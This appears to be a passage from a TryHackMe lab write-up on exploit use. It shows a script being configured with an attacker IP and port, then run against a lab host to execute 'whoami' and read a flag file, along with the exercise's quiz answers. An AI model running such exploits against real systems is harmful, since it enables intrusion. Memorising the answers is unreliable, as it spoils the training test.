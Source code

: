 ```
port="1337"
```
```
Modifying an Exploit (After)
nano exploit.py
mymachine="10.13.37.10"
port="1337"
```
Once we have configured the exploit correctly, let’s further read this exploit to understand how to use it. In the snippet below, we can see that we need to provide two arguments when running the exploit:
```
Listing the arguments for an exploit
exploit.py --help
To use this exploit, provide the following arguments:
-u The URL of the application
-c the command that you wish to execute
```
With this information in mind, we are now ready to use this exploit on the vulnerable machine. We are going to do the following:
1. Use the exploit to upload a malicious file to the vulnerable application containing whatever command we wish to execute, where the web server will run this malicious file to execute the code.
2. The file will first contain a basic command that we will use to verify that the exploit has worked.
3. Then we are going to read the contents of a file located on the vulnerable machine.
```
Running the exploit to output the name of the user that the application is running as
exploit.py -u http://10.10.10.10 -c "whoami"
www-data
```
```
Running the exploit to output the contents of a file on the target machine
exploit.py -u http://10.10.10.10 -c "cat flag.txt"
THM{EXPLOIT_COMPLETE}
```
## Answer the questions below
What type of vulnerability was used in this attack? `remote code execution`


# Task 5 Practical: Manual Exploitation
Note: You will need to either deploy the AttackBox or connect to the TryHackMe network to complete this task.
Deploy the machine attached to this task and wait a minimum of five minutes for it to be fully set up. After five minutes, visit the webserver running on the machine by navigating to http://MACHINE_IP in the browser of the device connected to the THM network (your own or the AttackBox). 

## Answer the questions below
Find out the version of the application that is running. What are the name and version number of the application? Find answer carefully in the source code.  `Online Book Store v1.0`
Now use the resources and skills from this module to find an exploit that will allow you to gain remote access to the vulnerable machine. `No answer needed`
Use this exploit against the vulnerable machine. What is the value of the flag located in a web directory?
